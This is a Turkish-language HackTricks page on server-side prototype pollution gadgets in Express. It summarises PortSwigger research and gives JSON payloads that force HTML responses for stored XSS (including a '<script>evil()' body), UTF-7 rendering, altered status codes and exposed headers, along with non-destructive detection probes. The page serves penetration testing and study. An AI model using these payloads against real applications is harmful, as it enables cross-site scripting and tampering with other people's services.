 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSS yanıtlarını sunma

**Daha fazla ayrıntı için** [**orijinal araştırmaya göz atın**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON içerik türünü HTML olarak değiştirin

**JSON içerik türü yanıtı** kullanan bir Express uygulamasında ve bir JSON'u yansıtarak:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
Bu durumlarda XSS genellikle JSON içerik türü ile mümkün değildir. Ancak, prototip kirlenmesi ile **Express'i HTML yanıtı sunması için kandırabiliriz.** Bu zafiyet, uygulamanın **`res.send(obj)`** kullanmasına ve uygulama/json içerik türü ile gövde ayrıştırıcısını kullanmasına dayanır.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** ve **`_body`** özelliklerini **kirleterek**, **Express'in HTML içerik türünü sunmasını** sağlamak ve **_body** özelliğini yansıtmak mümkündür; bu da saklı XSS'e yol açar.

### UTF7'yi Render Et

Express'in **UTF-7 içeriği render etmesini** sağlamak mümkündür:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Güvenli Tarama Teknikleri

### JSON boşlukları

Aşağıdaki PP, bir JSON içindeki niteliklerin ekstra bir boşluğa sahip olmasını sağlayacak ve bu, işlevselliği bozmayacaktır:
```json
{"__proto__":{"json spaces": " "}}
```
O zaman yansıtılan JSON şöyle görünecektir:
```json
{"foo":  "bar"} -- Note the extra space
```
### Açık Başlıklar

Aşağıdaki PP aracı, sunucunun HTTP başlığını geri göndermesini sağlayacaktır: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
**CORS modülünün yüklenmesi gerekmektedir**

### **OPTIONS Yöntemi**

Aşağıdaki yük ile, **OPTIONS yanıtından bir yöntemi gizlemek** mümkündür:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Durum**

Aşağıdaki PP yükü kullanılarak **dönen durum kodu** değiştirmek mümkündür:
```json
{"__proto__":{"status":510}}
```
### Hata

Bir prototipe bir dize gibi bir ilkel atadığınızda, bu **prototipin bir nesne olması gerektiğinden no-op işlemi üretir**. Eğer bir prototip nesnesini `Object.prototype`'a atamaya çalışırsanız, bu **bir istisna fırlatır**. Bu iki davranışı **prototip kirliliğinin başarılı olup olmadığını tespit etmek için** kullanabiliriz:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Yansıtılan Değer

Bir uygulama yanıtında bir nesne içerdiğinde, **`__proto__` ile birlikte alışılmadık bir adla bir özellik oluşturmak** faydalı olabilir. Özellikle, eğer **yalnızca alışılmadık özellik yanıt olarak döndürülüyorsa**, bu uygulamanın zayıflığını gösterebilir:
```json
{"unusualName":"value","__proto__":"test"}
```
Ayrıca, Lodash gibi bir kütüphane kullanıldığında, bir özelliği hem prototip kirlenmesi (PP) yoluyla hem de doğrudan nesne içinde ayarlamak başka bir tanı yaklaşımı sunar. Eğer böyle bir özellik yanıttan çıkarılmışsa, bu, Lodash'ın birleştirmeden önce hedef nesnede özelliğin varlığını doğruladığını gösterir:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Dots'a İzin Ver

Express'te **sorgu dizesi parametrelerinden nesneler oluşturmanıza** olanak tanıyan bir seçenek vardır.\
Kesinlikle bir hata **zincirinde** kullanarak bir **prototip kirlenmesi açığını** istismar edebilirsiniz.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` Node'da bir nesne oluşturur.**

## Referanslar

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
